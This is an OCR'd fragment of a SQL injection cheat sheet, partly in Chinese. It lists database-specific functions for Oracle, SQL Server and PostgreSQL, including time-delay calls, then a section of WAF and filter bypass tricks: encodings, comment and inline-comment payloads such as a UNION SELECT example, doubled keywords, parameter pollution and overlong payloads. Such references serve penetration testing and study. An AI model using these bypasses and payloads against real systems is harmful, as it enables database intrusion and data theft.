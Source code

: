 ​	– last_insert_id()
​	– row_count()  

**Oracle**

• 字符串连接
	– 'a'||'oracle' --
	– SELECT CONCAT('some','string')
• version
	– SELECT banner FROM v$version
	– SELECT banner FROM v$version WHERE rownum=1  

**SQLServer**

• WAITFOR WAITFOR DELAY '00:00:10';
• SERVERNAME SELECT @@SERVERNAME
• version SELECT @@version
• 字符串连接
	– SELECT 'some'+'string'
• 常量
	– @@pack_received
	– @@rowcount  

**PostgreSQL**

• sleep pg_sleep(1)  

**1.5 绕过技巧**

• 编码绕过
	– 大小写
	– url 编码
	– html 编码
	– 十六进制编码  

​	– unicode 编码
• 注释
​	– `// -- -- + -- - # /**/ ;%00`
​	– `内联注释用的更多，它有一个特性 /!**/ 只有 MySQL 能识别`
​	–` e.g. index.php?id=-1 /*!UNION*/ /*!SELECT*/ 1,2,3`
• 只过滤了一次时
​	– union => ununionion
• 相同功能替换
​	– 函数替换
​		\* substring / mid / sub
​		\* ascii / hex / bin
​		\* benchmark / sleep
​	– 变量替换
​		\* user() / @@user
​	– 符号和关键字
​		\* and / &
​		\* or / |
• HTTP 参数
​	– HTTP 参数污染
​		\* id=1&id=2&id=3 根据容器不同会有不同的结果
​	– HTTP 分割注入
• 缓冲区溢出
​	– 一些 C 语言的 WAF 处理的字符串长度有限，超出某个长度后的 payload 可能不会被处理
• 二次注入有长度限制时，通过多句执行的方法改掉数据库该字段的长度绕过  
